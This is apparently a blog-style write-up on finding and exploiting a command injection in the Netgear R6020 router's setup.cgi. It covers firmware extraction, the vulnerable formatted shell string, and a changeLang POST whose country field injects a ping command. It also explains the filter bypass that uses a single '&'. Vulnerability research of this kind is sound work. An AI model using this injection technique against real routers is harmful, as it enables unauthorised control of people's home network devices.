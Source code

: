 ## Hacking the Netgear R6020

### 1. Getting the Firmware

Firmware for this router can be found at <https://www.netgear.com/support/product/R6020.aspx#download>

The version in this blog is `1.0.0.48`

***

### 2. Extracting the Root Filesystem
Use binwalk to extract firmware files.

```console
j-o-e-l-s@machine:~/Downloads$ binwalk -e R6020_V1.0.0.48.zip 
j-o-e-l-s@machine:~/Downloads$ cd _R6020_V1.0.0.48.zip.extracted
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted$ binwalk -e R6020_V1.0.0.48.img 
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted$ cd _R6020_V1.0.0.48.img.extracted/
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted/_R6020_V1.0.0.48.img.extracted$ binwalk -e R6020.bin 
```

We can now look at the root filesystem files.
```console
j-o-e-l-s@machine:~/Downloads/_R6020_V1.0.0.48.zip.extracted/_R6020_V1.0.0.48.img.extracted/_R6020.bin.extracted/squashfs-root$ ls
bin   dev  etc_ro  init  media  proc  sys  usr  www
data  etc  home    lib   mnt    sbin  tmp  var  www.eng
```

***

### 3. Identifying Files of Interest
This router uses `.cgi` files to handle web requests and input sanitization so any of these file are available for analysis.
```sh
j-o-e-l-s@machine:~/squashfs-root$ find -name "*.cgi*"
./usr/etc/htpwd_recovery.cgi
./usr/etc/restore_config.cgi
./usr/etc/upgrade_stringTbl.cgi
./usr/etc/upgrade_flash.cgi
./usr/etc/setup.cgi
./usr/sbin/htpwd_recovery.cgi
./usr/sbin/restore_config.cgi
./usr/sbin/upgrade_flash.cgi
./usr/sbin/setupwizard.cgi
./usr/sbin/setup.cgi
```
***
 
### 4. Analyzing setup.cgi
Within setup.cgi there is a function that I named `do_fullscan` that is invoked by a HTML POST to setup.cgi.

![image](https://user-images.githubusercontent.com/90354476/133103817-6183c15a-f511-41e4-ad79-cdc415ec7fdc.png)
 
Within this function a shell command is executed using formatted strings:
 
![image](https://user-images.githubusercontent.com/90354476/133106054-76a12201-d9b1-4b84-8618-16e0efdfdd3a.png)

![image](https://user-images.githubusercontent.com/90354476/133104386-36cf5239-f830-4f00-ab92-094e709adec5.png)
 
So all I have to do is change one of the `%s` variables to be an arbitrary shell command. 
 
In this case I'm going to modify the first formatted string `wiz_country`.
 
Another thing I have to change is the region. There is a line 
```cpp
if (region_is_NA() == 0)
```
that controls whether wiz_country is simply `US` or a user supplied value.

***

### 5. Overview of Exploitation Steps
- Change the region to be anything but NA
- Modify wiz_country to inject a shell command.
- Invoke vulnerable function 

***

### 6. Changing the Region

***

### 7. Modifying wiz_country

To modify `wiz_country` we can use the function `changeLang`. It can be invoked with a POST to `setup.cgi` and looks like:
```python
language=English&country=United+States&todo=changeLang
```

Here country corresponds to `wiz_country`.

I want to change this to be a ping command:
```python
>>> urllib.parse.quote('" & ping 10.0.0.2 & "')
'%22%20%26%20ping%2010.0.0.2%20%26%20%22'
```

So the new POST will look like:
```python
language=English&country=%22%20%26%20ping%2010.0.0.2%20%26%20%22&todo=changeLang
```

The `&` in the ping command is important because there are forbidden value checks. For instance `$(` `||` `&&` are forbidden among a few others, however the singular `&` is allowed which allows the first part of the shell command to be parsed seperately and ran in the background.

***

### 8. Invoking do_fullscan 
